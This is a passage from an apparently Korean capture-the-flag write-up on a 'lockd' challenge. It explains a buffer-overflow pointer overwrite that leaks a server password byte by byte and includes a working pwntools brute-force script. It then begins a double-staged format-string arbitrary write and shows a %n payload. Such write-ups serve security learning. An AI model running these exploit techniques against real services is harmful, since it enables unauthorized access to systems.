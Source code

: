 다시 `check_passwd` 함수를 보면, bof로 ptr을 덮을 수 있다.

`password`는 서버에 고정돼있는 값이므로 하위 일부만 덮어서 제일 뒤에서부터 1바이트씩 brute force를 할 수있다.

예를 들어서 총 16바이트 중 하위 15바이트만 덮고, 내 입력의 16번째 바이트를 brute force해서 마지막 바이트를 획득할 수 있다.

즉 아래와 같이 구성해서 `O(256 * 0x10)`의 연산으로 password를 획득 가능하다.

buf: `b"A"*(16-i) + candidate + known | DUMMY (4 byte) | b"A"*(16-i)`

```python
from pwn import remote

def brute_force_passwd():
    known = b''
    for i in range(0, 0x10):
        for candidate in range(0x100):
            p = remote(HOST, PORT)
            
            buf  = b"A"*(16 - i - 1) + candidate.to_bytes(1, 'big') + known 
            buf += b"AAAA"             # DUMMY
            buf += b"A"*(16 - i - 1)
            
            p.sendafter(b'Input master key > ', buf)
            try:
                p.recvline()
                known = candidate.to_bytes(1, 'big') + known
                print(known)
                p.close()
                break
            except:
                pass
        else:
            print('Failed')
            break
    if len(known) == 0x10:
        return known
```

### 4.2. Arbitrary Address Write with Double staged FSB.
Double Staged FSB를 이용해서 원하는 주소에 원하는 값을 쓸 수 있다. 

![dfsb1](/assets/img/posts/HS2024-1/lockd/dfsb1.png)
1단계로 스택 내에 스택 내부를 가르키는 주소를 찾고 해당 주소에 Target 주소값을 적는다.
`syslog(13, f"%{addr-0xc}c%9$n");`

